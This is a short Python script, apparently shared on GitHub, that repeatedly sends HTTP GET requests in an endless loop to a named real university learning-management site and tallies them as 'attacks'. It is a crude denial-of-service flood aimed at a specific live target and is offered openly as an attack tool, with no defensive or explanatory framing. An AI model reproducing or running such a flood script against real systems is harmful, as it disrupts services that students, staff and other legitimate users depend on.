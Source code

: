 # x
import requests
url = 'http://lms.ui.ac.ir/'
counter = 0
p_ctr=0
f_ctr=0
while 1:
    a = requests.get(url)
    counter += 1
    if str(a) == '<Response [200]>':
        p_ctr += 1
        print('Status : OK | Number of Attacks: %i | Successful Attacks: %i | Failed Attacks: %i' %(counter, p_ctr, f_ctr))
    else:
        f_ctr += 1
        print('Status : Failed :( | Number of Attacks: %i | Successful Attacks: %i | Failed Attacks: %i' %(counter, p_ctr, f_ctr))
